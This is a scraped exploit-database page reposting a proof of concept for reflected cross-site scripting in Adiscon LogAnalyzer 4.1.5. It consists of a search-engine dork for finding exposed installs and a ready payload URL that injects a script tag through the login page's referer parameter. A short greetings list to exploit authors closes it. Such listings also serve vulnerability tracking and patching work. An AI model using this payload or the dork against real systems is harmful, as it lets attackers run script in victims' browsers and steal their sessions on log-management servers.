 ```yaml
---
title: Adiscon LogAnalyzer 4.1.5 Cross Site Scripting exploit
url: https://sploitus.com/exploit?id=PACKETSTORM:173102&utm_source=rss&utm_medium=rss
source: Sploitus.com Exploits RSS Feed
date: 2023-06-24
fetch_date: 2025-10-04T11:44:36.968821
---
```


# Adiscon LogAnalyzer 4.1.5 Cross Site Scripting exploit

[x]
Dark Mode

[##### SPLOITUS](/)

# Exploit for Adiscon LogAnalyzer 4.1.5 Cross Site Scripting

2023-06-23 | CVSS 7.1

Copy
Download
Source
[Share](#share-url)

```
## https://sploitus.com/exploit?id=PACKETSTORM:173102
====================================================================================================================================
| # Title : Adiscon LogAnalyzer V 4.1.5 Xss Vulnerability |
| # Author : indoushka |
| # Telegram : @indoushka |
| # Tested on : windows 10 Français V.(Pro) |
| # Vendor : http://loganalyzer.adiscon.com/ |
| # Dork : "Adiscon LogAnalyzer Version 4.1.5" |
====================================================================================================================================

poc :

[+] Dorking İn Google Or Other Search Enggine

[+] use payload : /login.php?referer=/userchange.php%3Fop%3Dchangeview%22%3E%3Cscript%3Eprompt(/indoushka/)%3C/script%3E%26viewid%3DSYSLOG

[+] http://127.0.0.1/rsyslog.infogeniecm/login.php?referer=/userchange.php%3Fop%3Dchangeview%22%3E%3Cscript%3Eprompt(/indoushka/)%3C/script%3E%26viewid%3DSYSLOG

Greetings to :=========================================================================================================================
jericho * Larry W. Cashdollar * brutelogic* hyp3rlinx* 9aylas * djroot.dz * LiquidWorm* Hussin-X *D4NB4R * shadow_00715 * yasMouh |
=======================================================================================================================================
```

Share

Copy

![](https://mc.yandex.ru/watch/54912310)